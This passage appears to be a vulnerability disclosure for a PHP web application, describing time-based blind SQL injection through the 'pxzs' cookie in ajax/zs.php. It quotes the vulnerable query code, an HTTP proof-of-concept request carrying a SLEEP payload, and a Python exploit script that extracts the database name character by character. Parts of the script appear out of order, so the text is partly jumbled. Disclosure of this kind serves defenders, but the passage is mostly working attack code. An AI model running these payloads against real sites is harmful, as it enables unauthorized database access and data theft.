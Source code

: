 ```python
            pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-(select conv(hex(mid(database(),%d,1)),16,10)))*1)))abcd)" %(char, j)
            cookies["pxzs"] = pxzs
            res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
            if time.time() - starttime > 1:
                result += payload
                print('current database is:', result)
                break
            else:
                pass
    print('\n[Finally] current database is %s' % result)

if __name__ == '__main__':
    host = '172.18.120.76'
    zs_sqli(host)    

```

got the mysql current db as following:

![image-20180915210311562](/Users/kunkun/Library/Application Support/typora-user-images/image-20180915210311562.png)

------

## 3. SQL Injection in ajax/zs.php with parameter $px

the following code got $px from cookie without any checking in line 8

```php
$px = isset($_COOKIE['pxzs'])?$_COOKIE['pxzs']:"sendtime";
```

and $px used in the following code to query in mysql bettween 43 and 45

```php
$sql=$sql." order by groupid desc,elite desc,".$px." desc limit $last,$amount";
//echo $sql;
$rs = query($sql); 
```

 so attack could make poc like:

```http
GET /ajax/zs.php HTTP/1.1
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: pxzs=(SELECT(1)FROM(SELECT(SLEEP((3-length(database()))*3)))abcd)


```

the python3 poc as following:

```python
#/usr/local/bin/python3
# -*-coding:utf-8-*-
 
import requests
import time

def zs_sqli(host):
    payloads = '-.@_abcdefghijklmnopqrstuvwxyz0123456789{}'
     
    result = ""

    headers = {"Host": host,
               "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
```
